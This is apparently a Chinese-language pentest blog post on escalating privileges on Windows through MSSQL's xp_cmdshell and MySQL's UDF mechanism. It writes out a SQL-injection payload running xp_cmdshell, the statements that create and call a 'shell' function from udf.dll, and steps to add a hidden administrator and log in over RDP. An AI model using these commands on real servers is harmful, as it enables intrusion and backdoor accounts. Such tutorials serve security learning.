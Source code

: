 +++
date = "2016-08-07T23:38:58+08:00"
description = ""
draft = false
tags = ["提权"]
title = "Windows下第三方服务提权"
topics = ["Pentest"]

+++

<center><h2>MSSQL和MySQL提权</h2></center>
## MSSQL提权
> MSSQL运行在system权限时才可以通过xp_cmdshell组件执行系统命令提权  
提权条件：数据库账号是DBA权限

#### 关于xp_cmdshell
* 得到数据库连接信息，连接数据库后执行EXEC xp_cmdshell 'net user';
* 有sql注入时也可以直接在url上使用xp_cmdshell，因为mssql可以多语句执行，例如?id=1;EXEC xp_cmdshell 'net user';\-\-

#### 连接数据库
> {{% fluid_img src="/img/post/privilge_escalation_win_find_sql_conn_msg.png" alt="Windows下第三方服务提权-找数据库连接信息" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_conn_mssql.png" alt="Windows下第三方服务提权-连接mssql数据库" %}}

#### 执行系统命令
> {{% fluid_img src="/img/post/privilge_escalation_win_try_exec_sys_command.png" alt="Windows下第三方服务提权-尝试用xp_cmdshell执行命令" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_cmd_shell.png" alt="Windows下第三方服务提权-开启xp_cmdshell组件" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_exec_sys_command_success.png" alt="Windows下第三方服务提权-使用xp_cmdshell成功执行命令" %}}

#### 添加用户
> {{% fluid_img src="/img/post/privilge_escalation_win_add_user.png" alt="Windows下第三方服务提权-添加用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_user.png" alt="Windows下第三方服务提权-查看添加的用户" %}}

#### 远程连接
> {{% fluid_img src="/img/post/privilge_escalation_win_remote_conn.png" alt="Windows下第三方服务提权-远程连接" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_input_u_p.png" alt="Windows下第三方服务提权-输入用户名和密码" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_remote_connection_view_ip.png" alt="Windows下第三方服务提权-输入用户名和密码" %}}

<br /><br />

## MySQL提权
> 环境：web应用服务器权限较低  
提权条件：MySQL是system权限

#### 关于UDF
> MySQL提权可以用UDF和Mof。UDF就是User defined Function，即用户定义函数，可以通过创建存储方法来定义函数，从而调用系统命令。

#### UDF提权过程
* 导入udf.dll到服务器指定目录  
	* MySQL版本小于5.1的udf.dll要导入到c:\windows\目录下  
	* MySQL版本大于等于5.1的udf.dll要导入到plugin_dir目录，plugin_dir在MySQL安装目录下的lib/plugin目录下(MySQL安装目录可以用select @@basedir得到)，默认不存在这个目录，我们要自己创建
* 使用SQL语句创建功能函数  
	CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll';
* 执行MySQL语句调用新创建的函数  
	select shell('cmd','whoami');
* 删除创建的函数  
	drop function shell;

#### 查看基本信息
> {{% fluid_img src="/img/post/privilge_escalation_win_view_base_msg.png" alt="Windows下第三方服务提权-查看基本信息" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_current_user.png" alt="Windows下第三方服务提权-查看当前用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_current_user_permissions.png" alt="Windows下第三方服务提权-查看当前用户权限" %}}

#### 上传udf提权
> {{% fluid_img src="/img/post/privilge_escalation_win_upload_udf.png" alt="Windows下第三方服务提权-上传udf" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_conn_mysql.png" alt="Windows下第三方服务提权-连接数据库" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_export_udf.png" alt="Windows下第三方服务提权-导出udf.dll并生成函数" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_exec_whoami.png" alt="Windows下第三方服务提权-提权成功执行whoami" %}}

#### 添加用户
> {{% fluid_img src="/img/post/privilge_escalation_win_shell_add_user.png" alt="Windows下第三方服务提权-通过shell函数添加用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_add_user_to_administrators.png" alt="Windows下第三方服务提权-通过shell函数添加用户到管理员组" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_active_user.png" alt="Windows下第三方服务提权-通过shell函数激活用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_view_user.png" alt="Windows下第三方服务提权-通过shell函数查看用户" %}}

#### 远程连接
> {{% fluid_img src="/img/post/privilge_escalation_win_shell_remote_connection.png" alt="Windows下第三方服务提权-远程3389连接" %}}
